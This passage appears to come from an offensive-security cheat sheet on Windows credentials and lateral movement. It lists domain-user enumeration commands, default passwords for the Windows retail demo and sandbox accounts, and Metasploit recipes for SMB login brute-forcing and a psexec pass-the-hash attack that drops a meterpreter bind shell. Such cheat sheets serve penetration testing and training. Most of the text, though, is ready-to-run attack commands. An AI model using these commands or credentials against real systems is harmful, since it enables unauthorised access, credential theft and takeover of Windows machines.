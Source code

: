 Some info about your user

```powershell
net user /dom
net user /domain
```

### TIP 2 - Retail Credential 

Retail Credential [@m8urnett on Twitter](https://twitter.com/m8urnett/status/1003835660380172289)

when you run Windows in retail demo mode, it creates a user named Darrin DeYoung and an admin RetailAdmin

```powershell
Username: RetailAdmin
Password: trs10
```

### TIP 3 - Sandbox Credential - WDAGUtilityAccount

WDAGUtilityAccount - [@never_released on Twitter](https://twitter.com/never_released/status/1081569133844676608)

Starting with Windows 10 version 1709 (Fall Creators Update), it is part of Windows Defender Application Guard

```powershell
\\windowssandbox
Username: wdagutilityaccount
Password: pw123
```


## Metasploit

### Metasploit - SMB

```c
use auxiliary/scanner/smb/smb_login  
set SMBDomain DOMAIN  
set SMBUser username
set SMBPass password
services -p 445 -R  
run
creds
```

### Metasploit - Psexec

Note: the password can be replaced by a hash to execute a `pass the hash` attack.

```c
use exploit/windows/smb/psexec
set RHOST 10.2.0.3
set SMBUser username
set SMBPass password
set SMBPass e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c
set PAYLOAD windows/meterpreter/bind_tcp
run
shell
```
